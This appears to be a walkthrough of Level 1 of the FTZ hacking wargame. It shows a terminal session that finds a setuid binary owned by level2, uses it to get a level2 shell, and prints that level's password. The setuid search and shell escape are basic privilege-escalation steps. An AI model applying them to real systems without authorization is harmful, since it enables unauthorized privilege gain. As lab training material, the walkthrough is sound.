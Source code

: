 # Level1

`[level1@ftz level1]$ ls -l  
total 12  
-rw-r--r--    1 root     root           47 Apr  4  2000 hint  
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html  
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp  
[level1@ftz level1]$ cat hint  
Level2 권한에 setuid가 걸린 파일을 찾는다.`

`[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null
/bin/ExecuteMe
[level1@ftz level1]$ ls -l /bin/ExecuteMe
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe`

`[level1@ftz level1]$ /bin/ExecuteMe`

`[level2@ftz level2]$ bash`

`[level2@ftz level2]$ my-pass
Level2 Password is "hacker or cracker".`


